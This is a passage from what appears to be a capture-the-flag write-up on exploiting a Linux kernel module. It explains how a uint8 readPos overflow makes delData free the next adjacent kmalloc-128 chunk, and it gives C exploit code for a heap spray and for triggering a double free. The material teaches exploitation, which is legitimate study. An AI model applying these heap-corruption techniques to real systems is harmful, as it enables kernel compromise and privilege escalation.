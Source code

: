 ```c
    return -EAGAIN;
  }

  kfree(ptr);
  kfree(ptrArr[_idx]);
  readPos[_idx] = 0;
  ptrArr[_idx] = 0LL;

  return 0;
}
```

`info` struct doesn’t store the begin pointer, but instead it stores `cur_ptr` which is a pointer to where the data have been read so far. So to get around that `ptr` is calculated with `cur_ptr - readPos[idx]` \[1\] which should be the same as begin pointer … if there’s no side effects in `readData`.

Consider this scenario, we can freely increment `readPos[idx]` without incrementing `cur_ptr` and we can also make `readPos[idx]` int overflow and goes back to 0. Because the checks in \[2\] is only checking for `cur_ptr - readPos[idx] < max_ptr - 128` and it doesn’t checks if `ptr > max_ptr`, **we can make `delData` to free the next adjacent chunk instead of the current chunk if we can make such that `cur_ptr == max_ptr` and `readPos[idx] == 0`**.

Free-ing next adjacent chunk can be turned into a double free if we can make data chunk positioned next to each other. To get that, first, we can spray some kmalloc-128 chunks. This can be achieved with spraying `msg_msg` or just go with `addData` and `delData` multiple times.

```c
    #define SPRAY 0x40

    int main(int argc, char *argv[]) {
      char *zero = malloc(sizeof(data_s));
      char *buffer = malloc(sizeof(data_s));
      uint64_t *a64 = (uint64_t *)buffer;
    ...
      memset(zero, 0, sizeof(data_s));
      memset(buffer, 0x41, sizeof(data_s));
    ...
      // make heap a little bit deterministic for later stage
      for (int i = 0; i < SPRAY; i++) add(zero);
      for (int i = 0; i < SPRAY; i++) del(i);
      for (int i = 0; i < SPRAY; i++) add(zero);
    ...
    }
```

Then we can select one of the index to free the next adjacent chunk.

```c
int selected_idx = 7;

// readPos[7] set to 0x80, but since the user data ptr
// is not writeable, copy_to_user would fail and curPtr
// stll stays at the beginning of the chunk
view(selected_idx, 0x80, (void *)0xdeadbeef);

// uint8 overflow, readPos[7] += 0x80 -> 0x100 -> 0
// and curPtr set to curPtr + 0x80 which should be max_ptr,
// so when delete happen it should free the next chunk
// instead of current chunk kfree((max_ptr) - readPos[7])
view(selected_idx, 0x80, buffer);

// free next adjacent chunk
del(selected_idx);
```
